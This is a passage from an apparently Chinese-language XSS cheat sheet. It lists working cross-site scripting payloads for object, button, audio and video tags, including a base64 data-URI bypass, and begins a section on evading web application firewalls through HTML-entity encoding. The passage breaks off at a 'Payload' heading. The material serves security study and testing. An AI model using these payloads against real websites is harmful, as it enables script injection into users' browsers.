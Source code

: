 ~~~
<object>标签
这个需要借助 data 伪协议和 base64 编码来实现绕过
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>

<button>标签
<p onmousedown="alert(1)">text</p>
<p onmouseup="alert(1)">text</p>
<button onclick=alert(1)>
<button onfocus="alert('xss');" autofocus="">xss</button>
<button onclick="alert('xss');">xss</button>
<button onmouseover="alert('xss');">xss</button>
<button onmouseout="alert('xss');">xss</button>
<button onmouseup="alert('xss');">xss</button>
<button onmousedown="alert('xss');"></button>

<audio> 标签
<audio src=1 onerror=alert(1)>
<audio><source src="x" onerror="alert('xss');"></audio>
<audio controls onfocus=eval("alert('xss');") autofocus=""></audio>
<audio controls onmouseover="alert('xss');"><source src="x"></audio>

<video>标签
<video src=x onerror=alert(1)>
<video><source onerror="alert('xss');"></video>
<video controls onmouseover="alert('xss');"></video>
<video controls onfocus="alert('xss');" autofocus=""></video>
<video controls onclick="alert('xss');"></video>
~~~





#### 2.事件



### 六、绕WAF

#### 编码绕过

浏览器对 XSS 代码的解析顺序为：**HTML解码 —— URL解码 —— JS解码(只支持UNICODE)**。

##### 0x01. html 实体编码

**当可控点为单个标签属性时，可以使用 html 实体编码。**

```
<a href="可控点">test</a>

<iframe src="可控点">test<iframe>
<img src=x onerror="可控点">
```

**Payload**
